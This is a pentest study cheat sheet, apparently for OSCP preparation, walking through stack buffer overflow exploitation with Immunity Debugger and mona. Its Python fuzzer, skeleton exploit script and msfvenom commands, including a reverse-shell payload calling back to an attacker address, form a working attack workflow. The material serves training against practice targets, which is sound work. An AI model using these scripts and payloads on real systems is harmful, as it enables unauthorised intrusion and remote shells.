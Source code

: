 ################
Buffer Overflows
################   


Taken from Tiberius's https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst, my notes added   

New to buffer overflows??? - start with Background Material below or see: https://github.com/Scr1ptK1ddie/OSCPprep/blob/main/Resources/BufferOverflowResources.md        

* https://bytesoverbombs.io/exploiting-a-64-bit-buffer-overflow-469e8b500f10
* https://www.abatchy.com/2017/05/jumping-to-shellcode.html
* http://www.voidcn.com/article/p-ulyzzbfx-z.html
* https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/
* https://medium.com/@johntroony/a-practical-overview-of-stack-based-buffer-overflow-7572eaaa4982


Immunity Debugger
=================

**Always run Immunity Debugger as Administrator if you can.**

There are generally two ways to use Immunity Debugger to debug an application:

1. Make sure the application is running, open Immunity Debugger, and then use :code:`File -> Attach` to attack the debugger to the running process.
2. Open Immunity Debugger, and then use :code:`File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

Note: If the binary you are debugging is a Windows service, you may need to restart the application via :code:`sc`

.. code-block:: none

    sc stop SLmail
    sc start SLmail

Some applications are configured to be started from the service manager and will not work unless started by service control.

Mona Setup
==========

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: :download:`mona.py <../_static/files/mona.py>`

| The latest version can be downloaded here: https://github.com/corelan/mona
| The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands).

In Immunity Debugger, type the following to set a working directory for mona.

.. code-block:: none

    !mona config -set workingfolder c:\mona\%p

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

.. code-block:: python

    import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)

Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

.. code-block:: python

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

.. code-block:: none

    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

.. code-block:: none

    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...

Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = "C" * (600-112-4)
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================
Common bad chars: \\x00 (NULL byte), \\x0A, \\x0D, bad chars often corrupt the next byte after them so just take the first one in a sequence of 2!   

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

.. code-block:: none

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

.. code-block:: python

    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:

.. code-block:: none

    badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
    payload = badchars + "C" * (600-112-4-255)

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

.. code-block:: none

    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

.. code-block:: none

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:

.. code-block:: none

    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"
    
    

Alternate method: on attack box, search DLL file for JMP ESP (\xff\xd4)  
 
 .. code-block:: none
 
     objdump -d essfunc.dll | grep 'ff e4'
    
Popping calc.exe    
================   

Not getting a shell connection: test if offset, bad chars and JMP ESP are correct by running calc.exe.  

.. code-block:: none

    msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f c         


Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

.. code-block:: none

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c    
    
copy C shellcode and insert into python script as payload = ("\xfc\xbb\xa1\..multiple lines..6\xa2\xeb\x0c")

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Buffer Overflow Practice
========================

* https://github.com/justinsteven/dostackbufferoverflowgood
* https://github.com/stephenbradshaw/vulnserver
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/    



Basic Background Knowledge  
========================    

The Cyber Mentor Buffer Overflow Videos: https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G   

Walkthrough Guide for TCM Videos: https://github.com/johnjhacking/Buffer-Overflow-Guide      

Identifying bad characters: https://www.ins1gn1a.com/identifying-bad-characters/ 

